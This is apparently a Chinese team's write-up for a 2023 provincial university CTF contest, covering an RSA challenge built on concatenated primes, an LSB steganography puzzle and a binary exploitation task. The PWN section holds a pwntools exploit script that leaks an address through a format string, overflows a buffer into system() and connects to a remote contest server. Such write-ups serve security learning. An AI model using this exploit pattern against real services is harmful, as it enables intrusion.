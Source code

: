 #  2023年第三届陕西省大学生网络安全技能大赛--本科高校组WriteUp

???+ abstract

    战队名称：**水狗献花拜佛队战队**
    
    队伍排名：第**123**名

    ![image-20230603160641535](./assets/image-20230603160641535.png){: .zoom}

## 解题思路

### Crypto

#### **HaM3**

1. 题目

    ```python
    from Crypto.Util.number import *
    from secret import flag

    p, q = getPrime(64), getPrime(64)
    P = int(str(p) + str(q))
    Q = int(str(q) + str(p))
    PP = int(str(P) + str(Q))
    QQ = int(str(Q) + str(P))
    assert isPrime(PP) and isPrime(QQ)
    n = PP * QQ
    m = bytes_to_long(flag)
    c = pow(m, 65537, n)
    print('n =', n)
    print('c =', c)
    '''
    n = 142672086626283587048017713116658568907056287246536918432205313755474498483915485435443731126588499776739329317569276048159601495493064346081295993762052633
    c = 35771468551700967499031290145813826705314774357494021918317304230766070868171631520643911378972522363861624359732252684003796428570328730483253546904382041
    '''
    ```

2. 题目分析

    在生成 $p$ , $q$ 的时候，先生成两个64位的较小素数，然后基于这两个小素数直接连接式组合，得到了大素数，最后乘起来得到了最后的 $n$ 。

    这种直接组合受到了十进制位数的影响的，即生成的素数有是20位十进制数的可能，也有可能是19位十进制数的可能。这样根据排列组合就有三种情况：两个20位十进制数的素数、一个19位，一个20位十进制数的素数，也有可能是两个19位十进制数的素数。

    首先设 $p$ , $q$ 均为 $10^{19}$ ,发现组合后数值比n大，然后设 $p$ , $q$ 均为 $10^{19}−1$ ，发现组合后数值比n小了。所有一个是20位一个是19位。

    设 $p$ 的位数是20，$q$ 的位数是19，则：

    $$
    n=[pqqp]*[qppq]
    $$

    $$
    [pq]=10^*19p+q
    $$

    $$
    [qp]=10^*20q+p
    $$

    $$
    [pqqp]=10^*58p+10^*39q+10^*20q+p
    $$

    $$
    [qppq]=10^*59q+10^*39p+10^*19p+q
    $$

    带入计算得：

    $p^2$ 的系数是 $10 ^{97}+ 10^{77}+ 10^{39}+ 10^{19}$

    $q^2$ 的系数是 $10 ^{98}+ 10^{78}+ 10^{39}+ 10^{20}$

    $p*q$ 的系数是 $10^{117} +10^7{8} +2×10^{59} + 2×10^{58} +10^{39}+1$

    经过分析：在 $10^137$ 往上和 $10^18$ 往下都是只有 $pq$ 的高位和低位，但是 $pq$ 的值的中间一位是不知道的。则：截取 `n - 10 ^ 136 | 10 ^ 136` 和 $n mod 10^{19}$ 就可以得出 $pq$

    即：

    ```python
    n=142672086626283587048017713116658568907056287246536918432205313755474498483915485435443731126588499776739329317569276048159601495493064346081295993762052633
    n-=10**136
    a,b=n//10**136,n%10**19
    print(int(str(a)+str(b)))
    ```

    这样可以得出p*q:

    ```python
    142672086626283587036081295993762052633
    ```

    使用在线工具分解：

    ```python
    p = 9937378783676979077
    q = 14357114660923972229
    ```

    写出解密代码：

    ```python
    from Crypto.Util.number import *

    '''
    n=142672086626283587048017713116658568907056287246536918432205313755474498483915485435443731126588499776739329317569276048159601495493064346081295993762052633
    n-=10**136
    a,b=n//10**136,n%10**19
    print(int(str(a)+str(b)))
    '''

    def decrypt_RSA(c, e, p, q):
        phi = (p - 1) * (q - 1)
        d = inverse(e, phi)
        m = pow(c, d, p * q)
        print(long_to_bytes(m))


    n = 142672086626283587048017713116658568907056287246536918432205313755474498483915485435443731126588499776739329317569276048159601495493064346081295993762052633
    c = 35771468551700967499031290145813826705314774357494021918317304230766070868171631520643911378972522363861624359732252684003796428570328730483253546904382041
    p = 9937378783676979077
    q = 14357114660923972229

    P = int(str(p) + str(q))
    Q = int(str(q) + str(p))
    PP = int(str(P) + str(Q))
    QQ = int(str(Q) + str(P))
    N = PP * QQ
    print(N == n)
    decrypt_RSA(c, 65537, PP, QQ)
    ```

3. 结果

    ![image-20230603160859512](./assets/image-20230603160859512.png)

### PWN

```python title="exp"
from pwn import *
context(os='linux', arch='amd64', log_level='debug')
# p = process('./pwn3')
p = remote("121.196.192.181", 10001)
elf = ELF('./pwn3')
p.recvuntil(b':')
p.sendline(b'2')    #进入格式化字符串漏洞
p.sendlineafter(b'Welcome to Terra_Cotta_Warriors', b'%19$p')
base = int(p.recv(14), 16) - 0x2eb  #得到基址
p_rdi = base + 0x433    #出栈
system = base + 0x29a
ret = base + 0x01a
exit = base + 0x110
payload = b'a' * 0x20 + p64(ret) + p64(system)
p.recvuntil(b'choice :\n')
p.sendline(b'1')    #进入缓冲区溢出漏洞
p.sendlineafter(b"Welcome to Huashan_Mountain", payload)
p.interactive()
```

### Misc

#### 管道

1. 题目
![管道](./assets/%E7%AE%A1%E9%81%93.png)

1. 题目分析

    根据题目利用LSB隐写工具进行爆破

    ![2](./assets/2.jpg)

    ![23](./assets/23.jpg)

    搜寻`flag`关键字

    ![234](./assets/234.jpg)

    得到flag
